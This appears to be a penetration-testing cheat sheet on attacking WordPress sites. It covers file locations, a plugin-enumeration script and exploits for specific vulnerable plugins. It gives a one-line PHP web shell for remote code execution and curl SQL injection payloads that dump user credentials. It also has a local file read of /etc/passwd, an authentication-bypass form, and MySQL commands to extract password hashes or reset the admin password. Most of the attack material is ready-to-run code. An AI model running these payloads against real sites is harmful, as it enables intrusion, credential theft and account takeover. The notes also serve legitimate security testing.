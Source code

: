 # Wordpress

### Basic Information

#### Themes files

They're located at `/wp-content/themes/` so if you gain access to the WordPress Admin panel, you can modify **404.php** of some theme, and then go to `/wp-content/themes/twentytwenty/404.php`

#### Main WordPress files

| File          | Description                                                                                                                                                                                                  |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| wp-config.php | Here you can find the root password of the database                                                                                                                                                          |
| xmlrpc.php    | File that represents a feature that enables data to be transmited by HTTP with XML mechanism. You can use this [script](https://github.com/notlucken/xmlrpc\_bruteforce/) to bruteforce users and passwords. |
| license.txt   | Userful information like the version of WordPress                                                                                                                                                            |

### Plugins Enumeration

To identify plugins of a Wordpress site, we can use a Script created by S4vitar but I improved it and uploaded to GitHub:

[Enumerate WordPress Plugins](https://github.com/notlucken/enumWordpressPlugins)

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "[!] Exiting..."
  exit 1
}


#Ctrl + C
trap ctrl_c INT

declare -i c=0

function readPlugins(){

  url=$1
  echo -e "\n[!] These are the plugins of $1:\n"
  echo -n "[+] "; curl -s -X GET "$url" | grep -oP '/plugins/\K[^.*/]+' | sort -u 
}

function helPanel(){
  echo -e "\n[i] Use\n"
  echo -e "\nh) Show this panel\n"
  echo -e "\nf) URL\n"
}

while getopts "hf:" arg; do
  case $arg in
    h) ;;
    f) url=$OPTARG; let c+=1;;
  esac
done

if [ $c -eq 1 ]; then
  readPlugins "$url"
else
  helPanel
fi
```

The usage is simple, only do a `chmod +x enumWordPressPlugins.sh` and later \`\`./enumWordpressPlugins.sh

### Plugin Explotations

#### PHP Plugin to RCE

Depending on the plugin, we can upload a .php file as a plugin.

```php
<?php system($_GET['cmd']); ?>
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

You will see an error, but if we go to media:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Access it to see the link:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### BookingPress < 1.0.11 - Unauthenticated SQL Injection

The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress\_front\_get\_category\_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection

You need to search for the `wponce=<ID>` in a page, in order to make the exploit work:

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<ID>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

To dump users and their passwords:

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<ID>&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,NULL,NULL,NULL,NULL,NULL,NULL from wp_users-- -'
```

### Mail Masta 1.0.0 - Local File Read

We can read files from the machine if this plugin is installed.

```bash
curl -s -X GET "http://<IP>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

### WP-Support-Plus-Responsive Ticket System < 7.1.3 - Privilege Escalation

You can login as anyone without knowing password because of incorrect usage of wp\_set\_auth\_cookie().

You need to know at least one username.

```txt
<form method="post" action="http://<IP>/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

Then you need to enable a SimpleHTTPServer to exploit.

## Post Explotation

If we can see the username and password of MySQL database, we can use this command to extract usernames and passwords

```bash
mysql -u <USERNAME> --password=<PASSWORD> -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Or we can change admin password

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('12345678') WHERE ID = 1;"b
```
